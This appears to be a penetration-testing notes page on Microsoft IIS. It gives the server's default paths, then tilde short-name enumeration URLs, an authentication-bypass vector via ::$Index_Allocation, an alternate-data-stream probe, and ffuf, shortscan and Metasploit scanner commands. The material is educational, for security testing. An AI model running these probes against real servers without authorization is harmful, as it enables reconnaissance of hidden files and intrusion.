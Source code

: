 # IIS

## 101

**IIS (Internet Information Services)** is a <mark style="background-color:yellow;">web server software made by Microsoft</mark>. It runs on Windows and is used to host websites, web applications, and services. It's commonly used for websites built with `ASP.NET` and other Microsoft technologies.

### Directories

<table data-header-hidden><thead><tr><th width="122"></th><th>Location</th></tr></thead><tbody><tr><td><strong>Webroot</strong></td><td><code>C:\inetpub\wwwroot\</code></td></tr><tr><td><strong>Config</strong></td><td><ul><li><code>%windir%\System32\inetsrv\config\applicationHost.config</code></li><li><code>C:\inetpub\wwwroot\web.config</code></li></ul></td></tr><tr><td><strong>Logs</strong></td><td><code>C:\inetpub\logs\LogFiles\</code></td></tr></tbody></table>

## Attacks

### Tilde Flaw

{% hint style="info" %}
The below information is based on [_Microsoft IIS tilde character “\~” Vulnerability/Feature – Short File/Folder Name Disclosure_](https://soroush.me/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf) paper.
{% endhint %}

#### Dirbusting

In older versions of Microsoft’s IIS, there's a way to discover hidden files and folders using something called **8.3 short file names**. These are legacy DOS-style names (e.g., `SECRET~1.HTM`) automatically created for files like `AcSecret.html`. By using the tilde character (`~`) in a crafted URL, we can <mark style="background-color:yellow;">enumerate or guess these hidden names</mark>, even if the files are protected or not listed publicly.

When a server uses **short file names**, it maps a long filename like `AcSecret.html` to a short one like `ACSECR~1.HTM`. This behavior can be abused via URLs with wildcards (`*`, `?`) and the tilde `~`. For example:

```bash
http://victim.com/acsecr~1.htm/.aspx
```

If the server responds with a `404 (not found)` instead of a `400 (bad request)`, it means the file exists — we've guessed part of a real filename! We can refine the guess:

1. Use `a*~1*/.aspx` to test if a file starts with `a`
2. Keep adjusting letters (`ab*`, `ac*`, etc.) until the server gives clues

For example, if there is a result such as `http://10.10.10.10/file_co~1.txt`:

{% code overflow="wrap" %}
```bash
# Extract the words starting with 'co'
$ grep '^co.*' /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt > start_with_co.txt

# Fuzz the file name
$ ffuf -w start_with_co.txt -u http://10.10.10.10/file_FUZZ.txt -ic -ac -c
...
connection    [Status: 200, Size: 142, Words: 3, Lines: 7, Duration: 35ms
```
{% endcode %}

The `.aspx` at the end of the URL is used due to a <mark style="background-color:yellow;">behavioral quirk of IIS</mark> that can be exploited to detect existing 8.3 names via different HTTP responses. <mark style="background-color:yellow;">IIS needs a valid extension at the end to route the request correctly</mark>. If the URL ends in something non-executable like `.htm` or no extension, IIS may return a generic response (like a `404` or `403`) instead of a behavior we can differentiate.

Adding `/.aspx` (or `/anything.aspx`) can <mark style="background-color:yellow;">force IIS to treat the path as a route to an</mark> <mark style="background-color:yellow;"></mark><mark style="background-color:yellow;">`ASP.NET`</mark> <mark style="background-color:yellow;"></mark><mark style="background-color:yellow;">resource</mark>, and might produce different error codes depending on whether the target file/folder actually exists or not. Let’s say we try:

```
http://victim.com/secretfo~1/
```

If it doesn’t exist will respond with `404 Not Found`, but if it exists might still give `404` or `403` depending on settings. On the other hand, if we try:

```
http://victim.com/secretfo~1/.aspx
```

If the folder exists, IIS may return a `403 (Forbidden)` , where if it doesn’t exist, it may return a `404 (Not Found)`.

#### Bypassing Authentication

Even if a folder is protected with login prompts (like Basic or Windows auth), we can still enumerate files using a trick:

```php
/ProtectedFolder::$Index_Allocation/*~1*/.aspx
```

This vector bypasses the login wall and lets us see what's inside **as long as short names exist**.

#### **Alternate Data Streams**

NTFS[^1], the default file system used by modern versions of Windows, has a feature called **ADS** that can help us check if a file exists based on the HTTP responses:

```bash
/filename.html::$data/~1/.aspx
```

A `404` usually means the file is there, just not accessible directly.

#### Tools

The tilde enumeration can be automated using tools such as [`shortscan`](https://github.com/bitquark/shortscan) and MSF's `iis_shortname_scanner` module:

{% tabs %}
{% tab title="shortscan" %}
```bash
# Single target
$ shortscan http://example.org/

# File with a list of URLs
$ shortscan @urls.txt
```
{% endtab %}

{% tab title="iis_shortname_scanner" %}
{% code overflow="wrap" %}
```bash
# Initial scan
$ sudo msfconsole -q -x "use auxiliary/scanner/http/iis_shortname_scanner; set RHOSTS <target>; run;"

# Targeted scan
sudo msfconsole -q -x "use auxiliary/scanner/http/iis_shortname_scanner; set RHOSTS <target>; set path /dev/dca66d38fd916317687e1390a420c3fc; run;"
```
{% endcode %}
{% endtab %}
{% endtabs %}

[^1]: New Technology File System
